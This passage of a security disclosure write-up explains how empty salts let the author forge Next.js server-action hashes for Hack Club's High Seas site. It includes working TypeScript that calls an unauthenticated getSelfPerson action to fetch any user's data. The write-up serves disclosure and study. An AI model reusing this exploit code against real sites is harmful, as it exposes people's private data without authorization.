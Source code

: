 This code takes a hash salt, the full path to the file containing the server action, and the function name of the server action. These values are SHA1 hashed in the format `{salt}{file}:{name}` and the hash is hex encoded. At first glance, it looks impossible to generate hashes outside of the nextjs build process due to the hash salt. However, this salt is **always empty** in the version of nextjs that High Seas uses for [backwards compatibility reasons](https://github.com/vercel/next.js/pull/69183) (it's also always empty in the canary build of nextjs at the time of writing this). As a result, if you know the path of the file the function you are create a hash for is in, you can create a hash. I also had the safePerson hash to test my hash generator against, making this reverse engineering process a lot easier. I knew that High Seas was hosted on the Vercel edge from all the Vercel errors I was getting in my wonderdome client, so all I had to do was figure out where Vercel's build system cloned GitHub projects, which was as simple as prepending a `pwd` to the build function. This directory happened to be `/vercel/path0/`, so the hash input for the `safePerson` function would be `/vercel/path0/src/app/utils/airtable.ts:safePerson`. The hash of this matches up with the hash that I hardcoded: `d483dc862f183641a65ff7b18ad1b9f1b4e4d49d`.

This is the code I used to call any server action:
```typescript
async function getActionHash(path: string, name: string) {
	const input = `/vercel/path0/${path}:${name}`;
	const hashed = await crypto.subtle.digest("SHA-1", new TextEncoder().encode(input));
	return [...new Uint8Array(hashed)].map(x => x.toString(16).padStart(2, '0')).join('');
}

async function callAction(path: string, name: string, args: any[], actionPath?: string) {
	const res = await fetch(`https://highseas.hackclub.com/${actionPath || ""}`, {
		"headers": {
			"accept": "text/x-component",
			"content-type": "text/plain;charset=UTF-8",
			"next-action": await getActionHash(path, name),
		},
		"body": JSON.stringify(args),
		"method": "POST"
	}).then(r => r.text());
	const components = res.split('\n').map(x => x.substring(x.indexOf(':') + 1));
	return components;
}
```
This code and any further snippets use my project [epoxy-tls](https://github.com/MercuryWorkshop/epoxy-tls/) to bypass CORS while fetching data end-to-end encrypted. `epoxy-tls` is where the `Response` object's `rawHeaders` property comes from later on.

While looking at the source of `safePerson`, I noticed that it calls `getSelfPerson` with the slack id from the current login token to get all of the person's data. [This function](https://github.com/hackclub/high-seas/blob/04eb2fad9d22cc04b1606604a637204ab9c5fcef/src/app/utils/airtable.ts#L6-L30) **did not have any authentication checks** and was exported, meaning it would automatically be turned into a server action by Nextjs due to the `'use server'` at the top of the file. Essentially, there was an unused API endpoint with **no authentication** that returned any slack id's data. This is the first vulnerability I found, and it was very easy to exploit due to the server action hash generator I had just made.

This is the original code I used to exploit the first vulnerability:
```typescript
async function selfPerson(id: string) {
	const ret = await callAction("src/app/utils/airtable.ts", "getSelfPerson", [id]);
	return JSON.parse(`{"id":"` + (ret)[ret.length - 2].split(`{"id":"`)[1]);
}
```
